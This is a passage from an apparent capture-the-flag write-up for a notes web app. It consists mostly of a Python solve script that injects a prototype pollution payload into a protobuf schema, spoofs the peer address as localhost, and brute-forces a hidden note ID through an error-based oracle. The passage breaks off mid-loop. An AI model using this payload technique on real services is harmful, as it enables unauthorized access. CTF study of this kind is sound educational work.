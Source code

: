 When the note ID is incorrect, it returns `Not found`, otherwise it returns `Internal server error`. Also, when the final character of the note ID is correct, it returns `Note found`.

**Based on the above Prototype Pollution and error-based oracle, we can develop a solve script to get the flag!**
```python
#!/usr/bin/env python3
import requests
import argparse
from bs4 import BeautifulSoup
from re import search

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.FLAG_FORMAT_REGEX_PATTERN = r'(bi0sctf{.*})'
        self.CUSTOMISE_ROUTE = '/customise'
        self.CREATE_NOTE_ROUTE = '/create'
        self.SEARCH_NOTE_ID_ROUTE = '/search/'
        self.VIEW_NOTE_ROUTE = '/view/'
        self.PROTOBUF_SCHEMA_PAYLOAD = 'option(foobar).constructor.prototype._peername.address = \"127.0.0.1\";optional'

        self.FLAG_NOTE_ID_LENGTH = 16
        self.CHARACTER_SET = 'abcdefghijklmnopqrstuvwxyz0123456789'
        self.INCORRECT_CHARACTER_STATUS_CODE = 200
        self.CORRECT_CHARACTER_STATUS_CODE = 500
        self.CORRECT_FINAL_CHARACTER_MESSAGE = 'Note found'
        self.leakedFlagNoteId = str()

    def injectPayloadToProtoBufSchema(self):
        print('[*] Injecting the Prototype Pollution payload into the message type `Note`...')
        dataObject = {'data':[{'title':self.PROTOBUF_SCHEMA_PAYLOAD},{'author':'optional'}]}
        response = requests.post(f'{self.baseUrl}{self.CUSTOMISE_ROUTE}', json=dataObject)

        isInjected = True if response.status_code == 200 else False
        if not isInjected:
            print('[-] The Prototype Pollution payload didn\'t get injected into the message type `Note`')
            exit(0)

        print('[+] The Prototype Pollution payload has been injected into the message type `Note`!')

    def pollutePeernameAttributeAddress(self):
        print('[*] Polluting `_peername`\'s attribute `address` into "127.0.0.1"...')
        dataObject = {'title':'','content':''}
        response = requests.post(f'{self.baseUrl}{self.CREATE_NOTE_ROUTE}', json=dataObject)

        confirmPollutionResponseStatusCode = requests.get(f'{self.baseUrl}{self.SEARCH_NOTE_ID_ROUTE}').status_code
        isPolluted = True if confirmPollutionResponseStatusCode == 404 else False
        if not isPolluted:
            print('[-] `_peername`\'s attribute `address` didn\'t get polluted')
            exit(0)

        print('[+] `_peername`\'s attribute `address` has been polluted!')

    def bruteForceNoteIdViaErrorBasedOracle(self):
        print('[*] Brute forcing the flag\'s note ID...')
        leakedFlagNoteId = str()
        while len(leakedFlagNoteId) < self.FLAG_NOTE_ID_LENGTH:
            for character in self.CHARACTER_SET:
```